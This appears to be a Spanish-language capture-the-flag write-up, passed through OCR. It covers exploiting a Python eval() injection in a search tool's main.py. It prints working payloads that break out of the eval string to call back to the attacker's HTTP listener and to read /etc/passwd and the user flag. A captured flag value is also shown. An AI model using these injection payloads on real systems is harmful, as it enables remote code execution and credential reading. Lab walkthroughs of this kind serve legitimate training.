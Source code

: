 En el archivo `main.py`, vemos la siguiente línea:

```python
url = eval(
f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
)
```

Podríamos tratar de inyectar código python escapando la función con una secuencia tal que `') codigo_python #`, de forma que quedaría:

```python
url = eval(
f"Engine.{engine}.search('') codigo_python #', copy_url={copy}, open_web={open})"
)
```

La función *eval*, nos permite evaluar expresiones con python (son bloques que devuelven un valor, tales como las llamadas a funciones). Por tanto, podemos tratar de importar *requests* y hacer una petición *http* a nuestra propia máquina (haremos uso de `exec()`, ya que nos permitirá ejecutar sentencias que no devuelvan nada, ya que al terminar su ejecución la propia función devolverá `None`), el payload será `'), exec("import requests; requests.get(ip:port)")#` pasando nuestro puerto e ip:

```bash
sudo python3 -m http.server 80
```
```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.208 - - [16/Apr/2023 17:41:50] "GET / HTTP/1.1" 200 -
```

Recibimos la respuesta, por lo que tenemos ejecución remota de comandos (RCE).

## Explotación

Tras un largo rato tratando de entablar sin éxito una *reverse shell* ([[Reverse shells]]). Podemos, haciendo uso del módulo `subprocess`, tratar de buscar credenciales válidas:

```python
'), exec('import subprocess; subprocess.run(["cat", "/etc/passwd"])')#
```
```bash
[...]
svc:x:1000:1000:svc:/home/svc:/bin/bash
[...]
```

Ya tenemos un usario potencial, por lo podemos ver ya la **flag de usuario**:

```python
'), exec('import subprocess; subprocess.run(["ls", "-a", "/home/svc/user.txt"])')#
```
```
2acdf0cdc9374d5a2dde14d40d61e5d9
```

Si buscamos en la ruta de la aplicación (`/var/www/app`), encontramos un directorio `.git`, con un archivo de configuración `config`:
